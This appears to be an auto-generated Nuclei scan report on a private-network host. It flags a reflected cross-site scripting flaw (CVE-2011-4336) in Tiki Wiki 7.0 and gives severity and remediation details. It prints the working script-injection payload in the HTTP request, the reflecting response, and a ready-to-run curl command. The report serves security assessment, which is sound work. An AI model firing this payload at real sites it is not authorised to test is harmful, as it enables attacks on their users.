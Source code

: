 ### Tiki Wiki CMS Groupware 7.0 Cross-Site Scripting (CVE-2011-4336) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2011-4336**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/snarf_ajax.php?url=1&ajax=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:14 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Tiki Wiki CMS Groupware 7.0 Cross-Site Scripting |
| Authors | pikpikcu |
| Tags | cve, cve2011, xss, tikiwiki |
| Severity | medium |
| Description | Tiki Wiki CMS Groupware 7.0 is vulnerable to cross-site scripting via the GET "ajax" parameter to snarf_ajax.php. |
| Remediation | Upgrade to a supported version. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2011-4336](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2011-4336) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /snarf_ajax.php?url=1&ajax=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 216
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/snarf_ajax.php?url=1&ajax=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2011-4336
- https://www.securityfocus.com/bid/48806/info
- https://seclists.org/bugtraq/2011/nov/140

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' 'http://192.168.198.179:8080/snarf_ajax.php?url=1&ajax=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)